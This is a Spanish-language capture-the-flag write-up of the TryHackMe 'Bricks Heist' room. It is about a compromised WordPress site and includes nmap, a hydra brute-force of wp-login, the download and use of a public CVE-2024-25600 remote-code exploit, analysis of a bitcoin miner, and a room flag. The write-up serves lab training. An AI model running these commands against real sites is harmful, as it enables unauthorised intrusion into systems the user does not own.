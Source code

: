 ```yaml
---
title: "TryHackMe – Bricks Heist   "
platform: "THM"
publishedAt: 2025-05-12
cover: "/images/ctf/bricksheist-cover.webp"
preview: "TryHackMe – Bricks Heist | Write-up técnico"
tags: [Hydra, WordPress, OSINT]
link: "https://tryhackme.com/room/tryhack3mbricksheist"
toc:
  - text: "🕵️ Introducción"
    id: "introduccion"
  - text: "🔍 1. Reconocimiento"
    id: "1-reconocimiento"
  - text: "🔢 2. Enumeración de servicios"
    id: "2-enumeracion-de-servicios"
  - text: "🔎 3. Análisis e  investigación"
    id: "3-analisis-e-investigacion"
  - text: "💣 4. Acceso inicial o administrativo"
    id: "4-acceso-inicial-o-administrativo"
  - text: "🔓 5. Explotación"
    id: "5-explotacion"
  - text: "🐚 6. Post-explotación"
    id: "6-post-explotacion"
  - text: "🔍 7. Proceso y servicio sospechoso"
    id: "7-proceso-y-servicio-sospechoso"
  - text: "📁 Análisis del miner"
    id: "analisis-del-miner"
  - text: "🔓 Decodificación de wallet"
    id: "decodificacion-de-wallet"
  - text: "🕵️‍♂️ 8. Asociación con grupo de amenazas"
    id: "8-asociacion-con-grupo-de-amenazas"
  - text: "🧠 9. IOCs (Indicators of Compromise)"
    id: "9-iocs-indicators-of-compromise"
  - text: "📝 10. Conclusión"
    id: "10-conclusion"
---
```


---


#            


## 🕵️ Introducción 


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado y qué grupo está detrás.

<details>
<summary>Herramientas y recursos externos utilizados </summary>

- Hydra > (https://github.com/OWASP/hydra)
- nmap > (https://nmap.org/)
- wpscan > (https://wpscan.com/)
- CVE-2024-25600 > (https://github.com/Chocapikk/CVE-2024-25600)

</details>


## 🔍 1. Reconocimiento


```shell
Comenzamos con un escaneo completo:
nmap -sCV -p- 10.10.72.226
```


### Puertos abiertos

- 22
- 80
- 443
- 3306

---


## 🔢 2. Enumeración de servicios

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🔎 3. Análisis e  investigación  


###  Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

## 💣 4. Acceso inicial o administrativo


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


## 🔓 5. Explotación


Usamos el exploit público para el CVE-2024-25600:


```shell
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


---


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


## 🐚 6. Post-explotación


### 
Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 7. Proceso y servicio sospechoso


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


---


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
ID: WW1NeGNY...
```


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (tres veces), obtenemos:


```plain text
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


## 🕵️‍♂️ 8. Asociación con grupo de amenazas



Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.




---


## 🧠 9. IOCs (Indicators of Compromise)


IPs, hashes, URLs, etc.


## 📝 10. Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

![Bricks_Heist.png](/images/ctf/bricksheist-0.webp)

